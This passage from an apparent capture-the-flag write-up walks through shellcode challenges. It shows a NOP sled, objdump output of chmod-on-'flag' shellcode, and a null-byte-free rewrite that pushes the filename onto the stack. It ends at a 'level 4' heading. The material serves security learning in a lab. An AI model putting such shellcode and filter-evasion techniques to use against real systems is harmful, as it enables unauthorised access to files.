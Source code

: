 ```armasm
.rept 0x800
nop
.endr
```

The rest of the steps and code remains the same.



## level 3

> This challenge requires that your shellcode have no NULL bytes!

We can use `objdump` to see the hexadecimal representation of our code.

```
~$ objdump -d shellcode

; -- snip --
0000000000001000 <_start>:
    1000:       48 8d 3d 20 00 00 00    lea    0x20(%rip),%rdi        # 1027 <flag>
    1007:       48 c7 c6 04 00 00 00    mov    $0x4,%rsi
    100e:       48 c7 c0 5a 00 00 00    mov    $0x5a,%rax
    1015:       0f 05                   syscall 
    1017:       48 c7 c7 00 00 00 00    mov    $0x0,%rdi
    101e:       48 c7 c0 3c 00 00 00    mov    $0x3c,%rax
    1025:       0f 05                   syscall 

0000000000001027 <flag>:
    1027:       2f                      (bad)  
    1028:       66 6c                   data16 insb (%dx),%es:(%rdi)
    102a:       61                      (bad)  
    102b:       67                      addr32
```

* As we can see, our code has a bunch of `NULL` bytes.
* There's multiple ways to ensure that our code doesn't have null bytes, easiest being the use of smaller registers.
* One challenge we will face is providing the FILENAME as an argument for our `chmod` syscall.
* We can work around this by pushing the "galf" onto the stack (Keep in mind memory is stored in little endian format so "flag" is stored as "galf").

```armasm
# Chmod syscall
push 0x67616c66 <---- galf
push rsp
pop rdi
mov sil, 4
mov al, 0x5a
syscall
```



## level 4
